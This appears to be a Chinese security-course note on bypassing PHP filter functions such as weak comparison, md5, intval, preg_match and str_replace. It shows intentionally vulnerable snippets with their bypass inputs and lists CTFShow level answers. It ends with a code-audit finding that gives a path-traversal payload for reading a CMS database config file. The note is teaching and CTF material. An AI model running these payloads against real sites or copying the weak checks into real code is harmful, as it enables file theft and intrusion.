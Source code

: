 ```plain
#知识点：
1、过滤函数缺陷绕过
2、CTF考点与代码审计

#详细点：最常见函数使用
==与===
md5
intval
strpos
in_array
preg_match
str_replace




<?php
header("Content-Type:text/html;charset=utf-8");
$flag='xiaodi ai chi xigua!';

//1、== ===缺陷绕过 == 弱类型对比 ===还会比较类型
$a=1;
if($a==$_GET['x']){
 echo $flag;
}

//1.0 +1 1a

$a='1';
if($a===$_GET['y']){
 echo $flag;
}

//1.0 +1等


//2、MD5函数缺陷绕过 ==弱对比 ===强类型对比
if($_GET['name'] != $_GET['password']){
 if(MD5($_GET['name']) == MD5($_GET['password'])){
 echo $flag;
 }
 echo '?';
}
//==
//echo MD5('QNKCDZO');
//echo MD5('240610708');

//===
//name[]=1&password[]=2

//3、intval缺陷绕过
$i='666';
$ii=$_GET['n'];
if(intval($ii==$i)){
 echo $flag;
}

// 666.0 +666

$i='666';
$ii=$_GET['n'];
if(intval($ii==$i,0)){
 echo $flag;
}

//0x29a

//4、对于strpos()函数，我们可以利用换行进行绕过（%0a）
$i='666';
$ii=$_GET['h'];
if(strpos($ii==$i,"0")){
 echo $flag;
}


//?num=%0a666



//5、in_array第三个参数安全
$whitelist = [1,2,3];
$page=$_GET['i'];
if (in_array($page, $whitelist)) {
 echo "yes";
}

//?i=1ex

//6、preg_match只能处理字符串，如果不按规定传一个字符串，通常是传一个数组进去，这样就会报错
if(isset($_GET['num'])){
 $num = $_GET['num'];
 if(preg_match("/[0-9]/", $num)){
 die("no no no!");
 }
 if(intval($num)){
 echo $flag;
 }
}


//?num[]=1

//7、str_replace无法迭代过滤
$sql=$_GET['s'];
$sql=str_replace('select','',$sql);
echo $sql;

//?s=sselectelect

?>
```

- #### 原理-缺陷函数-使用讲解-本地

```plain
原理-缺陷函数-使用讲解-本地
1、== ===缺陷绕过 == 弱类型对比，不会对比类型 ===还会比较类型
$a=1;
if($a==$_GET['x']){
 echo $flag;
}
//1.0 +1 1a
```

![1645089310161-d0a684d6-e241-4d5b-84ab-eccb7c7a0dac.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111252757-1004126028.png)

```plain
$a='1';
if($a===$_GET['y']){
 echo $flag;
}
这个判断就可以确定唯一性，不能更改。
```

```plain
2、MD5函数缺陷绕过 ==弱对比 ===强类型对比
if($_GET['name'] != $_GET['password']){
 if(MD5($_GET['name']) == MD5($_GET['password'])){
 echo $flag;
 }
 echo '?';
}
0e开头的md5值：https://www.cnblogs.com/Oran9e/p/6537204.html
//==
//echo MD5('QNKCDZO');  
0e830400451993494058024219903391
//echo MD5('240610708');
0e462097431906509019562988736854
```

![1645089442049-f9cb027e-da8c-48eb-9373-4c00bbbf2942.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111307816-114864713.png)

```plain
if($_GET['name'] != $_GET['password']){
 if(MD5($_GET['name']) === MD5($_GET['password'])){
 echo $flag;
 }
 echo '?';
}
Md5不能判断数组，判断为null
//===
//name[]=1&password[]=2
```

![1645089492453-dfa4ba6d-f03e-4bf9-81ce-b061c09b302a.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111318887-1733433541.png)

```plain
3、intval缺陷绕过
Intval 使用：https://www.runoob.com/php/php-intval-function.html
```

![1645089554193-32d4c132-f183-45da-936f-fb0f4bb06992.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111327718-622883167.png)

```plain
$i='666';
$ii=$_GET['n'];
if(intval($ii==$i)){
 echo $flag;
}
// 666.0 +666
```

![1645089578133-ea2f53bd-bc9a-4e2e-b12c-f6086eabc497.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111341964-1137960436.png)

```plain
$i='666';
$ii=$_GET['n1'];
if(intval($ii==$i,0)){
 echo $flag;
}
如果字符串以 "0" 开始，使用 8 进制(octal)；

//0x29a
```

![1645089599799-52720c25-a86b-454c-b01e-ec8327bcb988.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111355700-338392360.png)

```plain
4、对于strpos()函数，我们可以利用换行进行绕过（%0a）
$i='666';
$ii=$_GET['h'];
if(strpos($i,$ii,"0")){
    echo $flag;
}

//?num=%0a666
好像不太行。
5、in_array第三个参数安全
```

![1645089655383-73099a0f-b193-427a-941e-19ea86b80ab2.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111413173-460324828.png)

```plain
$whitelist = [1,2,3];
$page=$_GET['i'];
if (in_array($page, $whitelist)) {
 echo "yes";
}
没有TRUE相当于==，设置了TRUE相当于===
//?i=1ex

6、preg_match只能处理字符串，如果不按规定传一个字符串，通常是传一个数组进去，这样就会报错
preg_match匹配不了数组。
if(isset($_GET['num'])){
 $num = $_GET['num'];
 if(preg_match("/[0-9]/", $num)){
 die("no no no!");
 }
 if(intval($num)){
 echo $flag;
 }
}
//?num[]=1

7、str_replace无法迭代过滤
$sql=$_GET['s'];
$sql=str_replace('select','',$sql);
echo $sql;

//?s=sselectelect
```

- #### 实践-CTFShow-PHP特性-89关卡

```plain
89关：?num[]=1
90关：?num=4476.0
91关：?cmd=%0aphp
92关：?num=010574
93关：?num=010574
94关：?num= 010574
95关：?u=./flag.php
```

- #### 实践-代码审计-过滤缺陷-文件读取

```plain
全局搜索str_replace函数，发现：
```

![1645089754268-99eb1586-b455-49d4-b4fe-60c664873bc2.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111434324-1511716939.png)

```plain
控制dir，可以任意读取文件。/include/thumb.php?dir=.....///http\.....//\config/config_db.php
```

![1645089783208-dfac2036-ea59-4512-af82-7ed9b97cc756.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912111444552-266197836.png)